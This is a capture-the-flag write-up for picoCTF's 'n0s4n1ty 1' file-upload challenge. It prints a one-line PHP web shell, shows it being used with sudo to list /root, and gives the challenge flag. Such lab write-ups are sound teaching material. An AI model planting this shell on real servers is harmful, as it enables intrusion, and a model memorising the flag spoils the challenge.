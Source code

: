 # :briefcase: n0s4n1ty 1

- **Difficulty**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application [here](https://play.picoctf.org/practice/challenge/482)!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try uploading any file

    ![image2](images/image2.png)

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path `>` Because we haven't entered parameter yet, it will displayed like that 

    ![image3](images/image3.png)

    Enter the URL with `?command=ls`

    ![image4](images/image4.png)

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    ![image5](images/image5.png)

    Read it

    ![image6](images/image6.png)

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

- `system` — Execute an external program and display the output.
- File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

- [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
- [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
- [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)

---

# :hammer_and_wrench: Tools used

None

